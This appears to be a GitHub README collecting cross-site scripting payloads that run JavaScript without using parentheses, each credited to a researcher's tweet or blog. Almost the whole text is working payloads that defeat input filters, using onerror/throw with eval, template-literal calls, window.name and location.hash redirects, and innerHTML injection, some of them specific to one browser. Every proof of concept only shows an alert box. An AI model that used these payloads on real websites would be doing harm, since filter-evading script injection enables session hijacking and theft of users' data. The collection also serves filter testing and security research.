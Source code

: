 # XSS Without parentheses () 


### This repo contains XSS payloads that doesn't require parentheses, collected from tweets, blogs...
### All the POC's are alert box with number 23

---
    alert`23`
---
    window.name="javascript:alert(23)";
    location="xss.html";
xss.html

    location=name

---

[Cure53](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-2)


    eval.call`${'alert\x2823\x29'}`


---

[Renwa](https://twitter.com/RenwaX23)


    eval.apply`${[`alert\x2823\x29`]}`
    
---

[Bo0oM](https://twitter.com/i_bo0om/status/687652257609957376)


    setTimeout`alert\x2823\x29`
    setInterval`alert\x2823\x29`
    
---

[Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=alert;throw 23;

---
[Garethheyes](https://twitter.com/garethheyes/status/1128974215682637825)

    'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

---
Only Chrome [Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=eval;throw'=alert\x2823\x29';
    
---
[Garethheyes](https://twitter.com/garethheyes/status/1126526480614416395)

    {onerror=alert}throw 23

----
[terjanq](https://twitter.com/terjanq/status/1126614389371621378)

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---

[terjanq](https://twitter.com/terjanq/status/1126796552960389120)

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]
    
---

[terjanq](https://twitter.com/terjanq)

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```
    
---
Only Firefox [Garethheyes](https://twitter.com/garethheyes/status/1126922526796468224)
          
    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}
---

[ycam](https://twitter.com/ycam_asafety/status/1126976315666706433)

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
[cgvwzq](https://twitter.com/cgvwzq/status/1126994744268267527)

[https://demo.vwzq.net/lol.html](https://demo.vwzq.net/lol.html)

```
<script/id=Uncaught>

// chrome + firefox

throw[onerror=eval][e=[x=/-alert(1)/.source]]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]=/=alert(2)/.source,location.hash=1

</script>

<script>

// chrome + firefox

Array.prototype[Symbol.hasInstance]=eval,'alert\x283\x29'instanceof[]

</script>

<script>

// chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert\x284\x29//']

</script>


<script>

// chrome

onerror=eval,ReferenceError.prototype.name='=alert\x285\x29//',lol

</script>
```

---
[Renwa](https://twitter.com/RenwaX23/status/1126999364763832325)

```
document.body.innerHTML="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
```
    
---
[Renwa](https://twitter.com/RenwaX23)

```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---
If the page is frameable [Renwa](https://twitter.com/RenwaX23/status/1125387416175546368)

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---
[user00239123](https://stackoverflow.com/a/40899496/9216926)

    document.location='javascript:alert%2823%29'

---
Only IE [matt](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/#comment-2157)
   
    example.com/xss#<img src=x onerror=alert(23)>
    
    document.body.innerHTML=location.hash;
---
[Brutelogic](https://twitter.com/brutelogic/status/585944389589065728)
    
    <svg/onload='alert&#40 23 &#41'> 

---
[Blakils](https://twitter.com/Blaklis_/status/1125663871056928769)

    location=/javascript:alert%2823%29/.source;
---
[Nicocanicolas](https://twitter.com/nicocanicolas/status/1125399154560307205)

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;
    
    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---

[terjanq](https://twitter.com/terjanq)

Put `#%0aalert(/1337)//` or `?%0aalert(/1337)//` or `&%0aalert(/1337)` anywhere in the URL. Then, arbitrary code can be executed via:

```js
location='javascript:'+location
```

```js
location=/javascript:/.source+location
```

```js
location=`javascript:`+location
```

---

[terjanq](https://twitter.com/terjanq)

Custom strings without `` ()'"` ``
```
x={...eval+0,toString:Array.prototype.shift,length:15},
x+x+x+x+x+x+x+x+x+x+x+x+x,
location = /javascript:/.source + alert.name+x+1337+x
```


___
### Anything: @[RenwaX23](https://twitter.com/RenwaX23)

